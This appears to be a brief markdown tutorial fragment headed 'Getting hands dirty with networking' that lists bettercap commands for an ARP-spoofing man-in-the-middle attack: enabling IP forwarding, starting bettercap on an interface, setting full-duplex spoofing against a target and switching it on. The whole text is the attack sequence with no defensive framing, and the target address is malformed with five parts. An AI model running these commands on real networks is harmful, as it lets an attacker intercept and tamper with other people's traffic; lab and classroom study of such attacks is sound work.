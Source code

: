 ## 1. Getting hands dirty with networking

```bash

 echo 1 > /proc/sys/net/ipv4/ip_forward
```
```bash

sudo bettercap -iface eth0
```
```bash

 set arp.spoof.fullduplex true
```

```bash

set arp.spoof.targets 172.30.144.159.24
```
```bash

arp.spoof on
```
![Alt text](image.png)